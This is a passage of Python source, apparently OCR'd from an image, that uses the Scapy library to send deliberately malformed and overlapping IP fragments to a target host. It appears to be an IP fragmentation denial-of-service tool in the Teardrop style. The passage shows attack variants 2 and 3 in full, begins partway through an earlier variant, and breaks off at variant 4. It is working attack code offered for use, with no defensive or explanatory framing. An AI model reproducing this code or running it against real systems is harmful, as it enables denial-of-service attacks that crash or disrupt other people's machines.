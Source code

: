```python
  j.flags=0 
  j.proto=17
  j.frag=offset
  
  send(i/load)
  send(j/load)

elif attack == '2':
  print "Using attack 2"
  print "Attacking with attack 2"
  size=1300
  offset=80
  load="A"*size
  
  i=IP()
  i.dst=target
  i.proto=17
  i.flags="MF"
  i.frag=0
  send(i/load)

  print "Attack 2 packet 0"
  
  for x in range(1, 10):
    i.frag=offset
    offset=offset+80
    send(i/load)
    print "Attack 2 packet " + str(x)
  
  i.frag=offset
  i.flags=0
  send(i/load)

elif attack == '3':
  print "Using attack 3"
  size=1336
  offset=3
  load1="\x00"*size
  
  i=IP()
  i.dst=target
  i.flags="MF"
  i.proto=17
  
  size=4
  offset=18
  load2="\x00"*size
  
  j=IP()
  j.dst=target
  j.flags=0
  j.proto=17
  j.frag=offset
  
  send(i/load1)
  send(j/load2)

else:         # attack == 4
  print "Using attack 4"
  size=1300
  offset=10
  load="A"*size
  
```